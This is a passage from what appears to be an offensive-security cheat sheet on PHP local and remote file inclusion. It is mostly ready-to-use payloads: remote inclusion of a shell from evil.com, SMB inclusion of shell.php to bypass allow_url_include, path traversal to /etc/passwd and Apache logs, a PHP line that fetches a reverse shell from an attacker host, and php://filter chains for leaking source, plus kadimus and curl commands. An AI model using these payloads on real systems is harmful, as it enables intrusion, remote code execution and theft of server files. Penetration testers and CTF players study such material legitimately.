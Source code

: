```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`

### LFI CTF THM Dogcat example
```powershell
http://example.com/?view=php://filter/convert.base64-encode/cat/resource=index
http://example.com/?view=../../../../etc/cat../passwd/&ext=
http://example.com/?view=../../../../var/log/apache2/cat/../access.log&ext=
```
# Uploading a reverse shell using get request
<?php file_put_contents('shell.php', file_get_contents('http://[your-host]/shell.php')

## LFI / RFI using wrappers

### Wrapper php://filter

The part "php://filter" is case insensitive

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

can be chained with a compression wrapper for large files.

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`: 
- Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- deflate then base64encode (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```
